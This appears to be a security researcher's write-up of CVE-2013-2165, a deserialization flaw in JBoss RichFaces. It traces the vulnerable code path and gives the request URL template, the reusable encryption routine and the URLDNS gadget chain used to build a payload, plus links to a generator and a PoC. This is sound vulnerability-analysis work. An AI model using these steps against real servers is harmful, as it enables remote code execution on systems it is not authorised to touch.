 ## CVE-2013-2165

Author: lamnc2

Github: [kiven7299](https://github.com/kiven7299)





### Description

> ResourceBuilderImpl.java in the RichFaces 3.x through 5.x implementation in Red Hat JBoss Web Framework Kit before 2.3.0, Red Hat JBoss Web Platform through 5.2.0, Red Hat JBoss Enterprise Application Platform through 4.3.0 CP10 and 5.x through 5.2.0, Red Hat JBoss BRMS through 5.3.1, Red Hat JBoss SOA Platform through 4.3.0 CP05 and 5.x through 5.3.1, Red Hat JBoss Portal through 4.3 CP07 and 5.x through 5.2.2, and Red Hat JBoss Operations Network through 2.4.2 and 3.x through 3.1.2 does not restrict the classes for which deserialization methods can be called, which allows remote attackers to execute arbitrary code via crafted serialized data.
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2013-2165)





### Find vulnerable entry point

As a method provided by [@tint0](https://blog.tint0.com/)

> Getting some info about the CVE through the Richfaces developer’s blog at [http://www.bleathem.ca/blog/richfaces-security-advisory-cve-2013-2165/](https://web.archive.org/web/20190501081457/http://www.bleathem.ca/blog/richfaces-security-advisory-cve-2013-2165/) and see that the bug is fixed in Richfaces 4.3.3.
>
> Make a [diff](https://web.archive.org/web/20190501081457/https://github.com/richfaces4/core/compare/4.3.2.20130513-Final...4.3.3.20130710-Final) between the two Richfaces 4.3.3 and 4.3.2 to find the vulnerable code. We could see that the only difference in the diff is a code change fixing deserialization issue.



The vulnerability is located in `org.RichFacess.util.Util#DecodeObjectData`:

![image-20200328175039260](images/image-20200328175039260.png)





### Reach the vulnerable entry point

#### Examine data flow

1. Requests for resources always pass through `org.RichFacess.resource.ResourceHandlerImpl#handleResourceRequest`


   ![image-20200328160853524](images/image-20200328160853524.png)

   

   1. **Line 108** calls `org.RichFacess.resource.ResourceHandlerImpl#getResourcePathFromRequest`

      ```java
      public static String getResourcePathFromRequest(FacesContext context) {
              String resourceName = Util.decodeResourceURL(context);
              if (resourceName != null) {
                  return resourceName.startsWith("/rfRes/") ? resourceName.substring("/rfRes/".length()) : null;
              } else {
                  LOGGER.warn("Resource key not found" + resourceName);
                  return null;
              }
          }
      ```

      <u>**Requirement 1**:</u> Uri for resource in format `/rfRes/<resource name>`

      

   2. **Line 119** calls `org.RichFacess.resource.ResourceFactoryImpl#createReource` if the `resource` variable is null -  doesn't exist in cache (it usually doesn't). 

      <img src="images/image-20200328173059804.png" alt="image-20200328173059804" style="zoom: 67%;" />

      1. **Line 218** calls `org.RichFacess.resource.ResourceFactoryImpl#createDynamicResoure`<img src="images/image-20200328162108724.png" alt="image-20200328162108724" style="zoom: 50%;" />

         <u>**Requirement 2**</u>: The resource name provided in uri as `/rfRes/<resource name>` **must exist**.

         

         Look at the method, we can see that it use `libraryName` and `resourceName` to check whether it matches a key in `ResourceFactoryImpl.mappedResourceDataMap`:

         <img src="images/image-20200328164022402.png" alt="image-20200328164022402" style="zoom:50%;" />

         - `resourceName` is `<resource name>`

         - `libraryName` is the value of parameter `ln`.

           <u>**Requirement 3:**</u>  provide parameter `ln=org.richfaces.images`

           So as to have existed resource, we can provide `/chevronDown.png.jsf?ln=org.richfaces.images`.

         

      2. **Line 237**. Method `org.RichFacess.resource.DefaultCodecResourceRequestData#getData` check if `this.isDataSerialized` is true, then call `Util#decodeObjectData`, which is **the vulnerable entry point**.

         <img src="images/image-20200328174904863.png" alt="image-20200328174904863" style="zoom: 67%;" />

         Values for `isDataSerialized` and `dataString` are set by below function which is called in line 112 of  `org.RichFacess.resource.ResourceHandlerImpl#handleResourceRequest`:

         <img src="images/image-20200328160853524.png" alt="image-20200328160853524" style="zoom: 50%;" />

         <img src="images/image-20200328180112191.png" alt="image-20200328180112191" style="zoom: 67%;" />

         

      **<u>Requirement 4</u>:** Provide parameter `do=<serialized data>`

      

#### Conclusion

Requirements:

- Uri must be in format `/rfRes/<resource name>`

  - `<resoure name>` can be one of these (and more):

    <img src="images/image-20200328170904609.png" alt="image-20200328170904609" style="zoom:50%;" />

  

- Provide parameter `ln=org.richfaces.images`

- Provide parameter `do=<serialized data>`

Payload:

```
/rfRes/chevronDown.png.jsf?ln=org.richfaces.images&do=<serialied object payload>
```





### Exploit

#### Craft payload

In JBoss RichFaces 's deserialization procedure, there is a decryption phrase

![image-20200330223249291](images/image-20200330223249291.png)

This means the string representing serialized object is encrypted; Thus, we have to perform appropriate method of encryption. Fortunately, `org.richfaces.util.Util` class defines the encrypting functions so that we can reuse them.

```java
protected static byte[] encrypt(byte[] src) {
        try {
            Deflater compressor = new Deflater(1);
            byte[] compressed = new byte[src.length + 100];
            compressor.setInput(src);
            compressor.finish();
            int totalOut = compressor.deflate(compressed);
            byte[] zipsrc = new byte[totalOut];
            System.arraycopy(compressed, 0, zipsrc, 0, totalOut);
            compressor.end();
            return CODEC.encode(zipsrc);
        } catch (Exception var5) {
            throw new FacesException("Error encode resource data", var5);
        }
    }
    
public static String encodeBytesData(byte[] data) {
        if (data != null) {
            try {
                byte[] dataArray = encrypt(data);
                return new String(dataArray, "ISO-8859-1");
            } catch (Exception var2) {
                RESOURCE_LOGGER.error(Messages.getMessage("QUERY_STRING_BUILDING_ERROR"), var2);
            }
        }

        return null;
    }
```



In terms of exploiting Insecure Deserialization, we use **URLDNS** chain consulted from [ysoserial](https://github.com/frohoff/ysoserial). This chain exploit deserialization vulnerability to make `url` request:

>  // DNS Gadget Chain:<br>
> 	java.util.HashMap.readObject()<br>
> 		java.util.HashMap.putVal( HashMap.hash() )<br>
>  			java.net.URL.hashCode(String url)<br>



Code for generating payload: 

https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2013-2165/payload_generator/src/main/java/PayloadGenerator.java



Snapshot:

![Snapshot of running payload generator](images/Snapshot%20of%20running%20payload%20generator.png)



#### PoC

https://drive.google.com/open?id=1Nd1sjFW731cMffUiBgl_UtOMJQV5UFaJ
